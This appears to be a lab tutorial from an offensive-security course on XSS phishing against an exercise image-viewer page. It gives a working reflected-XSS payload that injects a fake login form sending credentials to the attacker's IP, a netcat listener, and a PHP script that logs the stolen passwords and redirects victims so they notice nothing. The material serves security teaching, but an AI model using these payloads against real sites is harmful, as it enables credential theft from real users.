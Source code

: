 # Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

***

## XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

Visiting [`http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg`](http://server_ip/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg) :

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon:

Visiting [`http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>`](http://server_ip/phishing/index.php?url=%3Cscript%3Ealert\(window.origin\)%3C/script%3E) :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

{% hint style="info" %}
**Tip:** To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.
{% endhint %}

***

## Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking \[`CTRL+SHIFT+C`] and then clicking on the element we need:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

***

## Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```shell-session
$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

```shell-session
al1abb@htb[/htb]$ mkdir /tmp/tmpserver
al1abb@htb[/htb]$ cd /tmp/tmpserver
al1abb@htb[/htb]$ vi index.php #at this step we wrote our index.php file
al1abb@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:

```shell-session
$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.
